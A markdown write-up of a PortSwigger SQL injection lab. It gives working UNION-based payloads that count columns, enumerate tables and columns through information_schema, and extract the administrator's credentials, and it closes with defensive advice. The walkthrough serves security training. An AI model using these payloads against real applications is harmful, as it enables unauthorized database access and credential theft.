




**Category:** SQL Injection  
**Difficulty:** Practitioner  
**Status:** ✅ Solved  
**Lab Link:** [PortSwigger Lab](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)

---

## Objective

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

---

## Background

SQL injection is a web security vulnerability that allows an attacker to interfere with the queries an application makes to its database. This occurs when user input is concatenated directly into SQL queries without proper sanitization.

In **UNION-based SQL injection**, an attacker can append a `UNION SELECT` statement to retrieve data from other tables. For this attack to succeed:

1. The injected query must return the **same number of columns** as the original query.
2. The data types in each column must be **compatible**.

When targeting **non-Oracle databases** (such as PostgreSQL or MySQL), the `information_schema` database contains metadata about all tables and columns in the system. This allows attackers to:

- **Enumerate table names** using `information_schema.tables`
- **Enumerate column names** using `information_schema.columns`
- **Extract data** from discovered tables using `UNION SELECT`

This lab demonstrates a complete database enumeration attack chain: finding the table → finding the columns → extracting the credentials.

---

## My Approach

### Phase 1: Determine the Number of Columns

First, I needed to find how many columns the original query returns using `ORDER BY`:

```
https://<LAB-ID>.web-security-academy.net/filter?category=Pets%27+ORDER+BY+2--
```

The application accepted `ORDER BY 2`, confirming the query returns **2 columns**.

### Phase 2: Enumerate Table Names

Next, I queried `information_schema.tables` to list all tables in the database. The view returns columns: `TABLE_CATALOG`, `TABLE_SCHEMA`, `TABLE_NAME`, `TABLE_TYPE`. Since I confirmed 2 columns, I selected `TABLE_NAME` and `NULL`:

```
UNION SELECT TABLE_NAME, NULL FROM information_schema.tables--
```

This revealed a table named `users_kfulbz`, which likely contains the user credentials.



### Phase 3: Enumerate Column Names

Now I needed to find the column names within the `users_kfulbz` table. The `information_schema.columns` view returns: `TABLE_CATALOG`, `TABLE_SCHEMA`, `TABLE_NAME`, `COLUMN_NAME`, `DATA_TYPE`. I queried for `COLUMN_NAME`:

```
UNION SELECT COLUMN_NAME, NULL FROM information_schema.columns WHERE table_name = 'users_kfulbz'--
```

This revealed two columns:
- `username_ikxtpm`
- `password_rqtvqf`



### Phase 4: Extract Credentials with Concatenation

To retrieve both username and password in a single column (since the query returns 2 columns and I need one for data, one for `NULL`), I used SQL **concatenation** to combine them:

```
username_ikxtpm || ' ~ ' || password_rqtvqf
```

> [!NOTE] SQL Concatenation Explained
> 
> Concatenation combines multiple string values into a single string. Different databases use different syntax:
> 
> | Database       | Concatenation Syntax | Example                      |
> |----------------|----------------------|------------------------------|
> | **PostgreSQL** | `\|\|` operator      | `col1 \|\| ' ~ ' \|\| col2` |
> | **Oracle**     | `\|\|` operator      | `col1 \|\| ' ~ ' \|\| col2` |
> | **MySQL**      | `CONCAT()` function  | `CONCAT(col1, ' ~ ', col2)`  |
> | **SQL Server** | `+` operator         | `col1 + ' ~ ' + col2`        |
> 
> In this lab, the `||` operator worked, confirming the database is **PostgreSQL**. The `' ~ '` separator makes the output readable and helps distinguish between the username and password in the response.

### Final Injection

```
https://<LAB-ID>.web-security-academy.net/filter?category=Pets%27+UNION+SELECT+username_ikxtpm%20%20||%20%27%20~%20%27%20||%20password_rqtvqf,+NULL+FROM+users_kfulbz--
```

This returned the credentials: `administrator ~ t6rsh209a847nsm2d1ey`



### Phase 5: Log In

I navigated to **My Account** and logged in with:
- **Username:** `administrator`
- **Password:** `t6rsh209a847nsm2d1ey`



---

## Payload Used

### Payload 1: Column Count Enumeration
```URL
https://<LAB-ID>.web-security-academy.net/filter?category=Pets%27+ORDER+BY+2--
```

### Payload 2: Table Name Enumeration
```URL
https://<LAB-ID>.web-security-academy.net/filter?category=Pets%27+UNION+SELECT+TABLE_NAME,+NULL+FROM+information_schema.tables--
```

### Payload 3: Column Name Enumeration
```URL
https://<LAB-ID>.web-security-academy.net/filter?category=Pets%27+UNION+SELECT+COLUMN_NAME,+NULL+FROM+information_schema.columns+WHERE+table_name%3d%27users_kfulbz%27--
```

### Payload 4: Credential Extraction (Final)
```URL
https://<LAB-ID>.web-security-academy.net/filter?category=Pets%27+UNION+SELECT+username_ikxtpm%20||%20%27%20~%20%27%20||%20password_rqtvqf,+NULL+FROM+users_kfulbz--
```

**Decoded for clarity:**
```
category=Pets' UNION SELECT username_ikxtpm || ' ~ ' || password_rqtvqf, NULL FROM users_kfulbz--
```

---

## Why It Worked

The original query likely looked like this:

```sql
SELECT * FROM products WHERE category = 'Pets' AND released = 1
```

After the final injection, it became:

```sql
SELECT * FROM products WHERE category = 'Pets' UNION SELECT username_ikxtpm || ' ~ ' || password_rqtvqf, NULL FROM users_kfulbz--' AND released = 1
```

### Breakdown
| Component                                         | Purpose                                                              |
| ------------------------------------------------- | -------------------------------------------------------------------- |
| `'`                                               | Closes the original string parameter in the `WHERE` clause           |
| `UNION SELECT`                                    | Appends a second query to retrieve data from another table           |
| `username_ikxtpm \|\| ' ~ ' \|\| password_rqtvqf` | Concatenates username and password into a single readable string     |
| `NULL`                                            | Fills the second column to match the original query's column count   |
| `FROM users_kfulbz`                               | Specifies the target table containing credentials                    |
| `--`                                              | SQL comment sequence that neutralizes the rest of the original query |
The attack succeeded because:
1. **Column count matched** (2 columns confirmed via `ORDER BY`)
2. **Data types were compatible** (`NULL` works with most types)
3. **`information_schema` was accessible** (non-Oracle databases expose metadata by default)
4. **Concatenation worked** (`||` operator confirmed PostgreSQL)

---

## How to Fix It

The only reliable defense is to **use parameterized queries (prepared statements)**. This ensures user input is treated as data, not executable code.

See [Lab 1: SQL Injection Fundamentals](01.%20SQL%20injection%20vulnerability%20in%20WHERE%20clause%20allowing%20retrieval%20of%20hidden%20data.md) for language-specific examples.

### Additional Recommendations

| Defense | Description |
|---------|-------------|
| **Parameterized Queries** | Always use placeholders (`?`) instead of concatenating user input |
| **Least Privilege** | Database accounts should not have access to `information_schema` unless required |
| **Input Validation** | Validate and sanitize all user input, even when using parameterized queries |
| **Web Application Firewall (WAF)** | Deploy a WAF to detect and block SQL injection patterns |

---

## Key Takeaway

> This lab demonstrates a complete **database enumeration attack chain**: (1) determine column count, (2) enumerate table names, (3) enumerate column names, (4) extract sensitive data. The `information_schema` database is a goldmine for attackers targeting non-Oracle databases. Never trust user input, and always use **parameterized queries**. Additionally, restrict database account permissions to limit access to system metadata tables like `information_schema`. Remember: different databases use different syntax for operations like concatenation (`||` for PostgreSQL/Oracle, `CONCAT()` for MySQL, `+` for SQL Server)—knowing these differences is crucial for successful exploitation.
